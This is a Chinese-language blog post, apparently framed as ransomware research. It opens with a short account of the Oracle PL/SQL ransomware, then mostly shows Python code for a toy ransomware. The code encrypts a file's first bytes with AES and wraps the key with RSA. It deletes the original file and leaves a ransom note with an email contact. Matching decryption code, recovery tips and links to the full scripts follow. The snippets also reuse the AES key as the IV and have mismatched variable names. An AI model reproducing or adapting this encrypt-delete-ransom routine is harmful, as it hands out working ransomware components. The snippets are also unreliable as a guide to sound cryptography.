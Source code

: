 ### 杂谈

在前一阵子，领导突然和我说起oracle勒索病毒，好像是有一家医院遭到了黑客的勒索攻击。

oracle勒索病毒就简单的介绍一下，一般是由于下载使用了破解版的PL/SQL导致的。该软件中自带一个AfterConnect.sql自动执行脚本，伪装成官方程序。当发生连接后会自动创建4个存储过程和3个触发器。当你的数据库满足其中触发器的条件，触发器就会调用存储过程对你的数据进行加密备份并删除原表。然后黑客就会留下联系方式对你进行勒索。

上面简单介绍了下oracle勒索病毒。但是这篇文章的重点不是这个，而是另一种通过RSA+AES加密你的文件，对你进行勒索。

那接下来我就来介绍一下我用Python实现对文件的加密解密还原勒索的过程。

### 准备工作

首先是准备Python环境，这边就不赘述了。

这时候我们需要pycrypto模块。pycrypto模块是python中用来处理加密解密等信息安全相关的一个很重要模块。

```
pip install pycrypto
```

可能会提示没有对应vs，下载安装Python 2.7 : Microsoft Visual C++ Compiler for Python 2.7 (网址：aka.ms/vcpython27)

我们运用到该模块的对称加密算法AES，公钥加密算法RSA。

### 实现原理

对文件进行加密勒索，我们是先使用对称密钥对文件前面部分字节进行加密，然后再用RSA算法生成的公钥对对称密钥进行加密。（这边的过程有点像HTTPS的交互过程）然后文件加密后的内容、加密的对称密钥以及未被加密的内容组成新的文件，删除原文件。这时候就会发现加密后的文件已经打不开了，只能够通过RSA生成的私钥进行解密重组才能看到原来的内容。而私钥是留在黑客手中的，这时候就已经被黑客给勒索了。

![1551232083227](assets/1551232083227.png)

### 实现过程

#### 加密过程

- 生成RSA密钥对，并把公钥和私钥写到对应文件中

```
rsa=RSA.generate(1024)
#生成私钥
private_pem = rsa.exportKey()
with open('C:\Users\\fandashen\Desktop\\attacker\master-private.pem', 'w') as f:
    f.write(private_pem)
#生成公钥    
public_pem = rsa.publickey().exportKey()
with open('C:\Users\\fandashen\Desktop\\ransom\\attack\master-public.pem', 'w') as f:
    f.write(public_pem)
```

- 随机生成一个十六位密钥

```
 field=string.letters+string.digits #构建所有大小写字母和数字的字符集
 Dkey=''.join(random.sample(field,16))
```

- 使用AES加密算法对文件进行加密

```
f1=open('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943.png','rb') #二进制格式读取需要加密的文件
all = f1.read()
t1=all[0:16] #取出前16位字符给t1
t2=all[16:] #不加密的文件内容
f1.close()

cryptor = AES.new(Dkey, AES.MODE_CBC, Dkey)
length = 16
count = len(t1)
if(count % length != 0) :
    add = length - (count % length)
else:
    add = 0
t1 = t1 + ('\0' * add) #加密函数，如果t1不是16的倍数【加密文本text必须为16的倍数！】，那就补足为16的倍数
entext = b2a_hex(cryptor.encrypt(t1)) #加密的文件内容
#AES加密时候得到的字符串不一定是ascii字符集的
#统一把加密后的字符串转化为16进制字符串
```

- 用公钥对AES的对称密钥进行加密

```
rsakey = RSA.importKey(public_pem) #读取到公钥
cipher = Cipher_pkcs1_v1_5.new(rsakey) #生成对象
cipher_text = base64.b64encode(cipher.encrypt(Dkey)) #加密的对称密钥
#进行加密，由于单使用RSA加密生成的字符串有乱码，再使用base64进行一次加密
```

- 将之前加密的文件内容，加密的对称密钥及未被加密的内容，重写成一个文件，并删除原文件，留下勒索提示文件，我们的加密过程就完成了

```
with open('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943_en.NONO','wb') as f:
    f.write(entxt+cipher_text+t2)
#删除原文件    if(os.path.exists('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943.png')):
    os.remove('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943.png')
#联系途径
with codecs.open('C:\Users\\fandashen\Desktop\\ransom\\attack\\readme.txt','w','utf-8') as f:
    f.write(u'你的文件已经被我加密了，请联系我的邮箱abc@123.com，支付相应费用来获取解密途径！')
```

此时我们电脑桌原来的文件1548138662943.png被我文加密成1548138662943_en.NONO，且已经无法打开。

#### 解密过程

- 首先需要以二进制方式读取被加密的文件，根据加密字段长度，将文件分成三部分。第一部分是AES加密过的文件内容，第二部分是公钥加密过的对称密钥，第三部分是未加密过的内容。

```
f1=open('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943_en.NONO','rb')
all = f1.read()
t1=all[0:32]
t2=all[32:204]
t3=all[204:]
f1.close()
```

- 然后就需要通过黑客将私钥拿到，对对称密钥进行解密。

```
with open('C:\Users\\fandashen\Desktop\\ransom\\attack\master-private.pem') as f:
    key = f.read()
    rsakey = RSA.importKey(key) #读取到私钥
    cipher = Cipher_pkcs1_v1_5.new(rsakey) #生成对象
    Dkey = cipher.decrypt(base64.b64decode(t2),'ERROR') #解密得到对称密钥
```

- 再通过对称密钥对加密过的文件内容进行解密，得到原来的文件内容

```
cryptor = AES.new(Dkey, AES.MODE_CBC, Dkey)
detext = cryptor.decrypt(a2b_hex(text)).rstrip('\0') #去掉末尾补足符
```

- 将解密后的文件内容和未加密的文件内容，重写到新的文件中，恢复文件名。文件就能够可以打开，且与内容与原文件一样。

```
with open('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943.png','wb') as f:
    f.write(detxt+t3)
```

再来就是把除了原文件其他生成的文件删除就可以了。



**这样一样，就完成了文件的加密解密过程。**



### 解决办法

想直接解密文件内容基本不可能。

病毒使用的加密方案都是目前成熟的解决方案，只要实现没有明显漏洞，就不可能被破解，实际上常见的勒索病毒目前都没有被破解。

但是要找回文件可以从两个方面入手：

- 病毒删除文件后往往没有对原文件进行覆盖操作，使用数据恢复软件或者找专门的数据恢复机构有一定几率能找回原文件。目前很多宣称能找回WannaCry病毒加密文件的工具都是这种方式。

- 随机数产生器可能存在漏洞，在产生随机数后随机数会被保留在内存中，于是可以通过读取内存的方式将里面的随机数读出来，从而获得会话私钥，解密文件。这个方法只对使用系统随机生产生器的病毒有效，而且对系统版本有要求，中毒后机器也不能重启过。





附上源码：

[RSA+AES_encrypt.py](https://github.com/leadsino/fanzhenlong/blob/master/%E5%8B%92%E7%B4%A2%E7%97%85%E6%AF%92%E7%A0%94%E7%A9%B6/RSA%2BAES_encrypt.py)

[RSA+AES_decrypt.py](https://github.com/leadsino/fanzhenlong/blob/master/%E5%8B%92%E7%B4%A2%E7%97%85%E6%AF%92%E7%A0%94%E7%A9%B6/RSA%2BAES_decrypt.py) 
​      